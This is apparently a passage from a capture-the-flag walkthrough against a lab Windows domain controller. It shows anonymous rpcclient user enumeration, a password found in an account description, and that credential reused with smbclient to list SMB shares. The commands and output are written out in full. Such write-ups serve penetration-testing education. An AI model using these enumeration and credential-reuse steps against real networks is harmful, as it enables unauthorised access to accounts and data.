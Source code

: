 This appears to be a domain controller.

### Domain Controller Remote Enumeration

Let's use `rpcclient` to see if we can list the user accounts on the domain.

```
┌──(kali㉿kali)-[~]
└─$ rpcclient -W '' -c querydispinfo -U''%'' '192.168.120.181'     
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!
```

We were able to get a domain user list along with a note that alludes that the password for the `V.Ventz` account is `HotelCalifornia194!`. Let's check if this will allow us to connect to SMB using `smbclient`. We can list the shares with the `-L` flag.

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L \\\\192.168.120.181\\ -U 'V.Ventz%HotelCalifornia194!'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Password Audit  Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Ooh, that **Password Audit** looks interesting. Let's access that and see what it contains.
